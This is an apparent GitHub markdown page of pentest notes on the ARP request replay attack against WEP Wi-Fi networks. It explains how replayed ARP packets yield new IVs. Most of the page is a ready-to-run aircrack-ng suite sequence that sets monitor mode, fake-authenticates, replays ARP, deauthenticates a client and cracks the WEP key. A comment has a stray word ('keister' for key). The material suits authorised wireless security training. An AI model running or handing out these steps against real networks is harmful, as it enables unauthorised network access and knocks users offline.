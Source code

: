 # OWASP - ARP Request Replay Attack (WEP)

The classic ARP request replay attack is the most effective way to generate new initialization vectors (IVs), and works very reliably. The program listens for an ARP packet then retransmits it back to the access point. This, in turn, causes the access point to repeat the ARP packet with a new IV. The program retransmits the same ARP packet over and over. However, each ARP packet repeated by the access point has a new IVs. It is all these new IVs which allow you to determine the WEP key.

ARP is address resolution protocol: A TCP/IP protocol used to convert an IP address into a physical address, such as an Ethernet address. A host wishing to obtain a physical address broadcasts an ARP request onto the TCP/IP network. The host on the network that has the address in the request then replies with its physical hardware address.

## Commands

* Run [setup](../../setup.md) first
* Two terminals needed here, so use `screen` or log in twice
     * Make sure terminal is full screen
* Make sure that there is an associated client connected to target AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack first
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the ARP replay attack
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# Run the deauthentication attack
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng $PCAP
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [ARP Request Replay](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=2615)

